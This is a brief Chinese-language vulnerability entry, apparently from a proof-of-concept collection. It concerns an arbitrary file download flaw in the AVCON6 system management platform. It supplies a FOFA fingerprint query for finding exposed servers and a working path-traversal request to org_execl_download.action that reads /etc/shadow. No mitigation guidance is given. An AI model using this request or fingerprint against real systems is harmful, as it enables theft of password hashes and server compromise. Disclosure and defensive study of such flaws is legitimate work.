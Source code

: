 # AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## FOFA

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101910818.png)